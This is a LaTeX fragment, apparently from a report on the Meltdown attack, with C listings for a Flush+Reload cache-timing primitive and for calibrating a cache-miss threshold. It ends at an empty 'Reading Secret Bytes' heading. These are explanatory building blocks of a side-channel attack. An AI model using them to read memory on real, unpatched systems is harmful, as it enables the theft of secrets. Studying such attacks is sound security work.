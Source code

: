 \documentclass[a4paper,oneside,openright] {scrreprt}
\begin{document}
\begin{lstlisting}[language=C, caption=Meltdown: Flush+Reload, label={lst:flushAndReload}]
static int __attribute__((always_inline)) flush_reload(void *ptr) {
    uint64_t start = 0, end = 0;
  
    start = rdtsc();
    maccess(ptr);
    end = rdtsc();
  
    flush(ptr);
  
    if (end - start < config.cache_miss_threshold) {
      return 1;
    }
    return 0;
}
\end{lstlisting}

Listing ~\ref{lst:computeThreshold} illustrates how the cache threshold can be determined.
The implementation applies one million iterations to compute a precise threshold value.
Therefore a pointer \texttt{ptr} is accessed in line 6 so that it's referenced data gets cached. 

\begin{lstlisting}[language=C, caption=Meltdown: Cache Miss Threshold 1, label={lst:computeThreshold}]
size_t reload_time = 0, flush_reload_time = 0, i, count = 1000000;
size_t dummy[16];
size_t *ptr = dummy + 8;
uint64_t start = 0, end = 0;
  
maccess(ptr);
for (i = 0; i < count; i++) {
  start = rdtsc();
  maccess(ptr);
  end = rdtsc();
  reload_time += (end - start);
}
for (i = 0; i < count; i++) {
  start = rdtsc();
  maccess(ptr);
  end = rdtsc();
  flush(ptr);
  flush_reload_time += (end - start);
}
reload_time /= count;
flush_reload_time /= count;
\end{lstlisting}

Afterwards the access time is measured to detect how long it takes to retrieve the cached value. 
Then the pointer's referenced data is removed from the cache in line 17 and thus reloaded from memory in every iteration.
At the end the average access time for cache hits and cache misses are computed.
Listing ~\ref{lst:computeThreshold} shows the final computation of \texttt{cache\_miss\_threshold}.

\begin{lstlisting}[language=C, caption=Meltdown: Cache Miss Threshold 2, label={lst:finalthreshold}]
config.cache_miss_threshold = (flush_reload_time + reload_time * 2) / 3;
\end{lstlisting}

\subsection{Reading Secret Bytes}
\label{ch:intro:motivation:A}
\end{document}
